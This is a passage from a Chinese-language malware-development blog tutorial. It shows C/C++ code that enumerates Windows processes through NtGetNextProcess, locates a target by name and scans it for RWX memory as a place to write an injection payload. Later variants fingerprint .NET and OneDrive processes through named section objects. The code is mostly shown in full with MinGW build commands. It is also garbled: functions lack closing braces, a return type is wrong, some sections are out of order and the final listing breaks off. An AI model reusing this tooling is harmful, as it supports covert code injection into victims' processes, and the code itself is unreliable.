










\newpage
\subsection{恶意软件开发技巧：RWX 搜寻（第 2 部分）——目标进程调查技巧（简单的 C/C++ 示例）}

在我之前的一篇文章中，我描述过一种使用 RWX 内存搜索逻辑的进程注入方法。

{width="80%"}

今天，我会应用同样的逻辑，但用一个新技巧。

正如你所记得的，这个方法很简单：我们枚举受害系统上当前正在运行的目标进程，扫描它们已分配的内存块，看是否有任何一块被保护为 RWX，然后把我们的载荷写入这块内存。

### 实战示例

今天我将用一个稍微不同的技巧。假设我们要在受害机器上搜索特定的进程（用于注入或用于其他用途）。

我们用一个单独的功能函数来搜索受害进程的 RWX 内存区域，类似于这样：

```cpp
int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
  addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

  // look for RWX memory regions which are not backed by an image
  if (mbi.Protect == PAGE_EXECUTE_READWRITE
  && mbi.State == MEM_COMMIT
  && mbi.Type == MEM_PRIVATE)

  printf("found RWX memory: 0x%x - %#7llu bytes region\n", 
  mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;

```

我们的主逻辑也稍微更新一下：首先，我们按名称搜索特定进程的句柄：

```cpp
typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
  pid = GetProcessId(current);
  break;
  }
  }

  return current;

```

如你所见，我们用 `NtGetNextProcess` API 来枚举进程。

那么，最终的源代码看起来是这样的（`hack.c`）：

```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
  pid = GetProcessId(current);
  break;
  }
  }

  return current;

int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
  addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

  // look for RWX memory regions which are not backed by an image
  if (mbi.Protect == PAGE_EXECUTE_READWRITE
  && mbi.State == MEM_COMMIT
  && mbi.Type == MEM_PRIVATE)

  printf("found RWX memory: 0x%x - %#7llu bytes region\n", 
  mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;

int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;

```

### 演示

我们来看一切实际运行的样子。编译我们的恶意软件源代码：

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-w -lpsapi -lshlwapi
```

{width="80%"}

然后在受害机器上运行它（我的例子是 Windows 11 x64）：

{width="80%"}

换另一个目标进程试试，例如 `OneDrive.exe`：

{width="80%"}

我们的逻辑起作用了，成功找到了 RWX 内存！

我们可以看到一切都完美工作了！=..=

### 实战示例 2

但这里有一些注意事项。有时候我们需要知道这个进程是 .NET 进程、Java 进程还是别的什么（它真的是 `OneDrive.exe` 进程吗）。

对于 .NET 进程，我们需要一个有趣的技巧。如果用 Process Hacker 2 打开 `powershell.exe`：

{width="80%"}

如你所见，在 Handles（句柄）标签页中我们能找到一个有趣的部分。

它的名称是 `\BaseNamedObjects\Cor_Private_IPCBlock_v4_<PID>`。

```cpp
HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = 
  (fNtGetNextProcess_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = 
  (fNtOpenSection_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
  pid = GetProcessId(current);
  
  // Check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
  UNICODE_STRING sName;
  OBJECT_ATTRIBUTES oa;
  HANDLE sHandle = NULL;
  WCHAR procNumber[32];

  WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
  sName.Buffer = (PWSTR) malloc(500);

  // convert INT to WCHAR
  swprintf_s(procNumber, L"%d", pid);

  // and fill out UNICODE_STRING structure
  ZeroMemory(sName.Buffer, 500);
  memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);  // add section name "prefix"
  StringCchCatW(sName.Buffer, 500, procNumber);  // and append with process ID
  sName.Length = wcslen(sName.Buffer) * 2;  // finally, adjust the string size
  sName.MaximumLength = sName.Length + 1;  
  
  InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
  NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
  if (NT_SUCCESS(status)) {
  CloseHandle(sHandle);
  break;
  }
  }
  }

  return current;

```

所以我们的字符串等于下面这个：

那么，我们更新一下 `findMyProc` 函数，像这样：

```cpp
typedef NTSTATUS (NTAPI * fNtOpenSection)(
  PHANDLE  SectionHandle,
  ACCESS_MASK  DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);
```

这里，`NtOpenSection` API 用于为一个已存在的节对象打开句柄：

```cpp
/*
 * hack2.c - hunting RWX memory
 * detect .NET process
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE  SectionHandle,
  ACCESS_MASK  DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = (fNtGetNextProcess_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = (fNtOpenSection_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
  pid = GetProcessId(current);
  
  // check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
  UNICODE_STRING sName;
  OBJECT_ATTRIBUTES oa;
  HANDLE sHandle = NULL;
  WCHAR procNumber[32];

  WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
  sName.Buffer = (PWSTR) malloc(500);

  // convert INT to WCHAR
  swprintf_s(procNumber, L"%d", pid);

  // and fill out UNICODE_STRING structure
  ZeroMemory(sName.Buffer, 500);
  memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);  // add section name "prefix"
  StringCchCatW(sName.Buffer, 500, procNumber);  // and append with process ID
  sName.Length = wcslen(sName.Buffer) * 2;  // finally, adjust the string size
  sName.MaximumLength = sName.Length + 1;  
  
  InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
  NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
  if (NT_SUCCESS(status)) {
  CloseHandle(sHandle);
  break;
  }
  }
  }

  return current;

int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
  addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

  // look for RWX memory regions which are not backed by an image
  if (mbi.Protect == PAGE_EXECUTE_READWRITE
  && mbi.State == MEM_COMMIT
  && mbi.Type == MEM_PRIVATE)

  printf("found RWX memory: 0x%x - %#7llu bytes region\n", mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;

int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;

```

### 演示 2

我们来看看第二个例子的实际效果。编译它：

```bash
x86_64-w64-mingw32-g++ hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-lpsapi -lshlwapi -w
```

{width="80%"}

然后只需运行它。在 `powershell.exe` 上检查：

```powershell
.\hack2.exe powershell.exe
```

{width="80%"}

现在，第二个实战示例也如预期那样工作了！太好了！=..=

### 实战示例 3

好，那么回到之前的问题：我们如何检查受害进程确实是 `OneDrive.exe` 进程？比如只是以防万一。

我们用 Process Hacker 2 看一下 `OneDrive.exe` 进程的属性：

这个节的名称是 `\Sessions\1\BaseNamedObjects\UrlZonesSM_test1`。

{width="80%"}

当然，我可能错了，这个字符串的存在并不能保证这就是 `OneDrive.exe` 进程。

所以，我又一次更新了我的函数，下面是我第三个示例的完整源代码（`hack3.c`）：

```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE  SectionHandle,
  ACCESS_MASK  DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char *procname) {
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = 
  (fNtGetNextProcess_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = 
  (fNtOpenSection_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
  GetProcessImageFileNameA(current, procName, MAX_PATH);
  if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
  // check for "\Sessions\1\BaseNamedObjects\UrlZonesSM_test1" section
  UNICODE_STRING sName;
  OBJECT_ATTRIBUTES oa;
  HANDLE sHandle = NULL;

  WCHAR objPath[] = L"\\Sessions\\1\\BaseNamedObjects\\UrlZonesSM_test1";
